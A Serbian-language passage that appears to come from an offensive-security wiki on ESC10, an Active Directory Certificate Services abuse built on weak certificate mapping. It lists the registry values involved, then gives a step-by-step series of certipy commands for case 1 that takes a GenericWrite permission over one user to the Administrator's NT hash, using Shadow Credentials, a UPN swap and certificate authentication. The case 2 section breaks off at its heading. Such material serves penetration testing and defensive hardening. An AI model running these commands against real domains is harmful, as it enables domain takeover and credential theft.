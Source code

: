 Dve vrednosti registarskog ključa na kontroloru domena se odnose na ESC10:

* Podrazumevana vrednost za `CertificateMappingMethods` pod `HKEY_LOCAL_MACHINE\System\CurrentControlSet\Control\SecurityProviders\Schannel` je `0x18` (`0x8 | 0x10`), prethodno postavljena na `0x1F`.
* Podrazumevana postavka za `StrongCertificateBindingEnforcement` pod `HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\Kdc` je `1`, prethodno `0`.

**Slučaj 1**

Kada je `StrongCertificateBindingEnforcement` konfigurisan kao `0`.

**Slučaj 2**

Ako `CertificateMappingMethods` uključuje bit `UPN` (`0x4`).

### Zloupotreba slučaja 1

Sa konfigurisanim `StrongCertificateBindingEnforcement` kao `0`, nalog A sa dozvolama `GenericWrite` može biti iskorišćen da se kompromituje bilo koji nalog B.

Na primer, imajući dozvole `GenericWrite` nad `Jane@corp.local`, napadač ima za cilj da kompromituje `Administrator@corp.local`. Postupak je sličan ESC9, što omogućava korišćenje bilo kog šablona sertifikata.

Prvo se dobija heš vrednost za `Jane` korišćenjem Shadow Credentials, iskorišćavajući `GenericWrite`.

```bash
certipy shadow autho -username John@corp.local -p Passw0rd! -a Jane
```

Nakon toga, `userPrincipalName` korisnika `Jane` je promenjen u `Administrator`, svesno izostavljajući deo `@corp.local` kako bi se izbeglo kršenje ograničenja.

```bash
certipy account update -username John@corp.local -password Passw0rd! -user Jane -upn Administrator
```

Nakon toga, zahteva se sertifikat koji omogućava autentifikaciju klijenta kao `Jane`, koristeći podrazumevani `User` šablon.

```bash
certipy req -ca 'corp-DC-CA' -username Jane@corp.local -hashes <hash>
```

`userPrincipalName` od `Jane` zatim se vraća na originalnu vrednost, `Jane@corp.local`.

```bash
certipy account update -username John@corp.local -password Passw0rd! -user Jane -upn Jane@corp.local
```

Autentifikacija sa dobijenim sertifikatom će rezultirati NT hešom `Administrator@corp.local`, što zahteva navođenje domena u komandi zbog odsustva detalja o domenu u sertifikatu.

```bash
certipy auth -pfx administrator.pfx -domain corp.local
```

### Zloupotreba slučaja 2
